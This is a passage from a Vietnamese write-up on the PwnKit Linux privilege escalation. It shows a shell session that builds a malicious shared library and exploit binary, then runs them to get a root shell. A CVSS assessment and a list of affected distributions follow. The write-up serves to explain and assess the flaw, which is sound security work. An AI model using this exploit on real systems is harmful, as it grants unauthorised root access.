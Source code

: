 ![image](https://hackmd.io/_uploads/S1A-c5tRkx.png)


**Kết Quả:**

```shell
h13u@ubuntu:~/tmp$ make all
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function 'gconv_init':
evil-so.c:9:5: warning: implicit declaration of function 'setgroups'; did you mean 'getgroups'? [-Wimplicit-function-declaration]
   9 | setgroups(0);
     | ^~~~~~~~~~
     | getgroups
evil-so.c:10:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
  10 | execve("/bin/sh", NULL, NULL);
     | ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function 'main':
exploit.c:23:5: warning: implicit declaration of function 'execve' [-Wimplicit-function-declaration]
  23 | execve(BIN, argv, envp);
     | ^~~~~~
h13u@ubuntu:~/tmp$ ls
evil.so evil-so.c exploit exploit.c Makefile
h13u@ubuntu:~/tmp$ ./exploit
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

![image](https://hackmd.io/_uploads/rygnwq5KC1g.png)


## 3. Mức Độ Nghiêm Trọng và Tác Động

### 3.1 Đánh giá CVSS

Lỗ hổng PwnKit có **mức độ nghiêm trọng cao với điểm CVSS (Common Vulnerability Scoring System) là 7.8** dựa trên các yếu tố sau:

- **Độ phức tạp tấn công**: Thấp
- **Quyền yêu cầu**: Thấp (chỉ cần quyền người dùng thông thường)
- **Phạm vi ảnh hưởng**: Không thay đổi
- **Tác động bảo mật**: Cao (đề cao quyền lên root)
- **Tác động toàn vẹn**: Cao
- **Tác động khả dụng**: Cao

### 3.2 Hệ thống bị ảnh hưởng

Lỗ hổng ảnh hưởng đến gần như tất cả các bản phân phối Linux chính, bao gồm nhưng không giới hạn:

- Ubuntu (tất cả các phiên bản)
- Debian
- Fedora
- Red Hat Enterprise Linux
- CentOS
- Arch Linux
- Gentoo
- Alpine Linux
- và nhiều bản phân phối khác
